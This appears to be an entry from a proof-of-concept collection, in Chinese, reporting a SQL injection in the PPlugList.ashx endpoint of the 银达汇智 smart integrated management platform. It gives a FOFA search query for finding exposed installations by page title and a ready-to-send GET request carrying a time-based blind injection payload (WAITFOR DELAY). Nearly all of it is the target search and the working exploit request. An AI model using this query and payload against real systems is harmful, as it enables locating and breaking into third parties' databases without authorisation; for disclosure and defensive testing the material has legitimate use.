 # 银达汇智智慧综合管理平台PPlugList接口存在SQL注入

# fofa
```
title="智慧综合管理平台登入"
```

# poc
```javascrip
GET /Module/CJGL/Controller/PPlugList.ashx?action=find&PlugIdentID=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
```
